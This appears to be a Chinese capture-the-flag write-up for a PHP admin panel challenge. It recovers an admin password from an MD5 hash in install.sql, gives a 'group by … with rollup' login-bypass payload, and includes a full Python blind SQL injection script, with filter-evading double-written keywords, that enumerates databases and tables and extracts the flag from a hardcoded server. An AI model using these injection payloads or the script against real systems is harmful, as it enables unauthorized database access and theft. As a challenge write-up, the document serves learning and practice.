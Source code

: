 install.sql

```INSERT INTO `fish_admin` VALUES (1, 'admin', 'bfb912d6febd13fc8ae29b45551e5011', '114514', '1919810', 1);```

对```bfb912d6febd13fc8ae29b45551e5011```进行md5解密 得到管理员密码 xuxuxu

![image-20220429121517778](img/image-20220429121517778.png)

给没登进去后台的同学看看后台长什么样

![image-20220504173011294](img/image-20220504173011294.png)

![image-20220504173020505](img/image-20220504173020505.png)

注入点在/admin/daochu.php

但是首先要以```bmth```的身份登录

payload:

user:

```bmth'/**/group/**/by/**/password/**/with/**/rollup/**/limit/**/1/**/offset/**/1#```

pass:不传

使用```group by password with rollup```能产生一条为null的记录

![image-20220504173400025](img/image-20220504173400025.png)

然后使用limit可以选中password结果为null的那条记录 这里过滤了``,``  可以使用limit x offset y(等同于limit x,y)

![image-20220504173503390](img/image-20220504173503390.png) 

然后就是常规的盲注

将select concat替换为空 双写绕一下就行

exp(注意设置登录的cookie，因为会先判断有无处于登录状态):

```python
import requests

url = 'http://42.192.42.48:8079/admin/daochu.php?id='
#登录的cookie
headers = {
        "cookie": "PHPSESSID=blpq9rbidrie21n59h9dccq0l6"
    }
data = {
    "user":"bmth'/**/group/**/by/**/password/**/with/**/rollup/**/limit/**/1/**/offset/**/1#",
}
result = ''
for x in range(1, 100):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        #获取当前数据库
        #payload = "0')||ascii(substr(database(),{},1))>{}%23" .format(x, mid)
        #获取所有数据库
        #payload = "0')||ascii(substr((seleselectct/**/group_conconcatcat(schema_name)/**/from/**/information_schema.schemata),{},1))>{}%23" .format(x, mid)
        #获取flagggg_1s_here数据库所有表
        #payload = "0')||ascii(substr((selselectect/**/group_concconcatat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='flagggg_1s_here'),{},1))>{}%23" .format(x, mid)
        #获取flagggg_1s_here数据库所有列
        #payload = "0')||ascii(substr((selselectect/**/group_concconcatat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='flagggg_1s_here'/**/and/**/table_name='flag'),{},1))>{}%23" .format(x, mid)
        #获取flag
        payload = "0')||ascii(substr((selselectect/**/flag/**/from/**/flagggg_1s_here.flag),{},1))>{}%23" .format(x, mid)
        response = requests.post(url=url+payload, data=data,headers=headers)
        if b'test11' in response.content:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    result += chr(int(mid))
    print(result)

```

flag在```flaggg_1s_here``` 数据库的flag表的flag字段中

![image-20220504173659406](img/image-20220504173659406.png)

